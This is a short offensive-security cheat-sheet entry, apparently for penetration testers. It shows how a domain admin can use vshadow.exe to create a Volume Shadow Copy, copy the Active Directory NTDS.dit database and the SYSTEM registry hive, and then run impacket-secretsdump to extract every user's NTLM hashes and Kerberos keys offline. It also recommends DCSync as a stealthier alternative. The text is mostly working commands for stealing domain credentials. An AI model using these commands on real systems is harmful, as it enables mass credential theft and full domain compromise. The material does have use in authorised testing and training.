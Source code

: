 A **Shadow Copy**, also known as Volume Shadow Service (VSS) is a Microsoft backup technology that allows the *creation of snapshots of files or entire volumes*.

As domain admins, we can abuse the vshadow utility to create a Shadow Copy that will allow us to extract the Active Directory Database NTDS.dit database file. Once we've obtained a copy of the database, we need the SYSTEM hive, and then we can extract every user credential offline on our local Kali machine.

```cmd
# Note the Shadow copy device name
vshadow.exe -nw -p  C:
-nw: Disable writers (Speeds up backup creation)
-p: Store the copy on disk

copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak
reg.exe save hklm\system c:\system.bak
```
```sh
# Get NTLM hashes & kerberos tickets
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```

You can perform DCSync Attack which is more stealthy!